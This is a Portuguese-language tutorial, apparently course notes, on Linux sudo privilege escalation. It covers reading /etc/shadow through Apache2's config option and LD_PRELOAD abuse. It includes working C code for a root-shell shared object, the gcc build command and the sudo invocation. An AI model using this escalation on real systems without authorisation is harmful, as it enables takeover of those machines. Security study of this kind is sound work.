

# SUDO
O comando sudo, por padrão, permite executar um programa com privilégios de root. Sob algumas condições, os administradores de sistema podem precisar dar aos usuários regulares alguma flexibilidade em seus privilégios. Por exemplo, um analista SOC Jr. pode precisar usar **Nmap** regularmente, mas não seria liberado para acesso root completo. Nesta situação, o administrador do sistema pode permitir que este usuário execute apenas Nmap com privilégios de root, mantendo seu nível de privilégio regular em todo resto do sistema.

Qualquer usuário pode verificar sua situação atual relacionada aos privilégios de root usando o `sudo -l` comando.

[GTFoBins](https://gtfobins.github.io/)é uma fonte valiosa que fornece informações sobre como qualquer programa no qual você possa ter direitos sudo pode ser usado.

### Aproveite as funções do aplicativo

Alguns aplicativos não terão uma exploração conhecida neste contexto. Esse aplicativo que você pode ver é o servidor Apache2.

Nesse caso, podemos usar um "hack" para vazar informações aproveitando uma função do aplicativo. Como você pode ver abaixo, o Apache2 tem uma opção que suporta o carregamento de arquivos de configuração alternativos (-f : especifique um ServerConfigFile alternativo).

Carregando o `/etc/shadow` o arquivo que usa esta opção resultará em uma mensagem de erro que inclui a primeira linha do `/etc/shadow`.

## Elevando Com a LD_PRELOAD

Em alguns sistemas, você pode ver a opção de ambiente LD_PRELOAD.


`LD_PRELOAD` é uma função que permite que qualquer programa use bibliotecas compartilhadas. Este postagem do blog(abre em uma nova aba)lhe dará uma ideia sobre os recursos do LD_PRELOAD. Se a opção **"env_keep"** estiver habilitada, podemos gerar uma biblioteca compartilhada que será carregada e executada antes que o programa seja executado. Observe que a opção LD_PRELOAD será ignorada se o ID de usuário real for diferente do ID de usuário efetivo.

As etapas deste vetor de escalonamento de privilégios podem ser resumidas da seguinte forma;

1. Verifique se há LD_PRELOAD (com a opção env_keep)

2. Escreva um código C simples compilado como um arquivo de objeto compartilhado (extensão .so)

3. Execute o programa com direitos sudo e a opção LD_PRELOAD apontando para nosso arquivo .so

O código C simplesmente gerará um shell root e poderá ser escrito da seguinte forma:

```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
Podemos salvar este código e compilá-lo usando gcc em um arquivo de objeto compartilhado usando os seguintes parâmetros;

```BASH
gcc -fPIC -nostartfiles -shared -o <output.so> <input.c>
``` 
Agora podemos usar esse arquivo de objeto compartilhado ao iniciar qualquer programa que nosso usuário possa executar com sudo. No nosso caso, Apache2, find ou quase qualquer um dos programas que podemos executar com sudo podem ser usados.

Precisamos executar o programa especificando a opção LD_PRELOAD, da seguinte forma;

```BASH
sudo LD_PRELOAD=/home/user/ldpreload/Lib.o find
```

Isso resultará em uma geração de shell com privilégios de root.


